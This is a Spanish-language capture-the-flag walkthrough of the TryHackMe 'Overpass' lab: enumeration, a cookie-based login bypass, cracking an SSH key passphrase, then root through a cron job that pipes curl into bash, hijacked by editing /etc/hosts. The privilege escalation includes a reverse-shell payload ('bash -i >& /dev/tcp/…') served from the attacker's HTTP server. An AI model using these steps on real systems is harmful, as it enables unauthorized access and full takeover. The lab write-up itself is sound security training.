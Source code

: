 # Overpass TryHackMe

- Ip atacante - 10.6.53.128
- Ip victima - 10.10.165.13

## Enumeracion 

Realizamos una enumeracion basica con nmap

```bash
❯ sudo nmap -Pn -sS -n --min-rate 5000 -p- 10.10.165.13     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-30 19:32 EDT
Nmap scan report for 10.10.165.13
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Viendo la pagina tiene el directorio de ``/about`` la cual nos da los nombre de los creadores y quiza sean nombre de usuario para la maquina. 

Asi mismo tenemos ``/downloads`` el cual nos da links de desacargas para la aplicacion. 

Buscando mas directorios con la herramienta de ``dirb`` encontramos un ``/admin``

```bash
❯ dirb http://10.10.165.13

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Mar 30 19:36:09 2023
URL_BASE: http://10.10.165.13/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://10.10.165.13/ ----
==> DIRECTORY: http://10.10.165.13/aboutus/
+ http://10.10.165.13/admin (CODE:301|SIZE:42)
==> DIRECTORY: http://10.10.165.13/css/
==> DIRECTORY: http://10.10.165.13/downloads/
[...]
```

Entrando en la pagina intentamos con los usuarios e intentamos realizar SQLI pero no funciono. Viendo la red para ver que realizaba la pagina, encontramos un login.js el cual espera una cookie y dependiendo de eso nos deja entrar

![](img/overpass1.png)

Asi que creamos un cookie llamada SessionToken

![](img/overpass2.png)

Recargamos la pagina y nos deja ver un private key

![](img/overpass3.png)

## Nos conectamos mediante SSH

Nos copiamos el private key a nuestra maquina y cuando intentamos entrar con el usuario de james con ssh nos pide credenciales

```bash
❯ ssh james@10.10.165.13 -i privkey                    
The authenticity of host '10.10.165.13 (10.10.165.13)' can't be established.
ED25519 key fingerprint is SHA256:FhrAF0Rj+EFV1XGZSYeJWf5nYG0wSWkkEGSO5b+oSHk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.165.13' (ED25519) to the list of known hosts.
Enter passphrase for key 'privkey':
```

Debido a que no tengo credenciales voy a intentar usar jhontheripper para obtener el valor de la credencial. Quiza ellos no usan una contraseña segura

```bash
❯ ssh2john privkey > privhash

❯ john -w=/usr/share/wordlists/rockyou.txt privhash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
*****13          (privkey)     
1g 0:00:00:00 DONE (2023-03-30 20:03) 16.66g/s 222933p/s 222933c/s 222933C/s pink25..honolulu
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Ahora si obteniendo el valor ingresamos mediante ssh y obtenemos la primera flag de user

### user flag
```bash
james@overpass-prod:~$ cat user.txt 
thm{************************281e6bf7}
```

leyendo el usuario james tiene un ``todo.txt``

```bash
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

## Escalando privilegios

Pasamos linpeas
```bash
james@overpass-prod:/tmp$ wget http://10.6.53.128/linpeas.sh
--2023-03-31 00:19:03--  http://10.6.53.128/linpeas.sh
Connecting to 10.6.53.128:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 828260 (809K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh   100%[====================>] 808.85K   389KB/s    in 2.1s    

2023-03-31 00:19:06 (389 KB/s) - ‘linpeas.sh’ saved [828260/828260]

james@overpass-prod:/tmp$ chmod +x linpeas.sh 
james@overpass-prod:/tmp$ ./linpeas.sh 


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
[...]
```

Dentro de linpeas encontramos 
```bash
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Este script que esta intentando hacer un curl desde overpass.thm
Linpeas tmb nos dice que podemos escribir en ``/etc/hosts``

```
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
/dev/mqueue
/dev/shm
/etc/hosts
/home/james
/run/lock
[...]
```

Sabiendo esto podemos engañar a la computadora alterando el ``/etc/hosts``
cambiamos el ``127.0.1.1`` por nuetra IP. Quedaria de la siguiente forma:

```bash
james@overpass-prod:/tmp$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.6.53.128 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

En mi maquina creo mis carpetas

```bash
❯ mkdir downloads downloads/src

❯ cat downloads/src/buildscript.sh
#!/bin/bash
bash -i >& /dev/tcp/10.6.53.128/443 0>&1;
```

Nos montamos un servidor con python y a la vez nos ponemos en escucha por el puerto 443 que pusimos arriba

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.165.13 - - [30/Mar/2023 20:36:01] "GET /downloads/src/buildscript.sh HTTP/1.1" 200
```

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.6.53.128] from (UNKNOWN) [10.10.165.13] 52964
bash: cannot set terminal process group (16678): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

### root flag

```bash
root@overpass-prod:~# cat root.txt
cat root.txt
thm{************************4ea753bb}
```